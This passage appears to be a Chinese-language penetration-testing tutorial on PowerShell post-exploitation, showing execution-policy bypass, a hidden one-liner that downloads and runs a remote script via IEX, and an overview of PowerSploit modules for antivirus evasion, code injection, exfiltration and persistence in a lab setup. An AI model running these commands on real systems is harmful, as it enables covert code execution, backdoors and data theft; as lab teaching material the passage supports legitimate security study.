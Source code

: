 追加内容

```powershell
Add-Content 1.txt -Value "i love you"
```

清除内容

```powershell
Clear-Content test.txt
```

上传test.psl至目标服务器，在CMD环境下，在目标服务器本地执行该脚本。

```powershell
powerShell.exe -Executionpolicy Bypass -File test.psl
```

从远程服务器下载脚本，绕过本地权限并隐藏执行

```powershell
powerShell.exe -Executionpolicy Bypass-WindowStyle Hidden-NoProfile-NonI IEX(New-ObjectNet.webClient).DownloadString("test.psl");[Parameters]
```

## powersploit

### 1、概念及其调用

一款基于powershell的后渗透框架软件，包含很多power shell攻击脚本。主要用于信息侦察、权限维持、权限提升

Kali Linux 系统内置了 Powersploit，安装在 `/usr/share/windows-resources/powersploit` 目录下，可以通过 `ls` 命令看到各种脚本类型

```zsh
┌──(root💀kali)-[~/桌面]
└─# cd /usr/share/windows-resources/powersploit                                       
┌──(root💀kali)-[/usr/share/windows-resources/powersploit]
└─# ls
AntivirusBypass  CodeExecution  Exfiltration  Mayhem  Persistence  PowerSploit.psd1  PowerSploit.psm1  Privesc  README.md  Recon  ScriptModification  Tests
                
┌──(root💀kali)-[/usr/share/windows-resources/powersploit]
└─# cd CodeExecution                                                    
┌──(root💀kali)-[/usr/share/windows-resources/powersploit/CodeExecution]
└─# ls
CodeExecution.psd1  CodeExecution.psm1  Invoke-DllInjection.ps1  Invoke-ReflectivePEInjection.ps1  Invoke-ReflectivePEInjection_Resources  Invoke-Shellcode.ps1  Invoke-WmiCommand.ps1  Usage.m
```

将/usr/share/windows-resources目录下的powersploit复制移动到/var/www/html下，搭建一个建议的服务器，在win7靶机中访问192.168.160.129/powersploit,如下图所示

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/powershell1.png)

上图的几个模块的功能如下

```powershell
AntivirusBypass 发现杀毒软件的查杀特征
CodeExcution 在目标主机上执行代码
Exfiltration  目标主机上的信息收集工具
Mayhem 蓝屏破坏脚本
Persistence 后门脚本（持久性控制）
Recon 以目标主机为跳板进行内网信息侦察
ScriptModification 在目标主机创建修改脚本
```
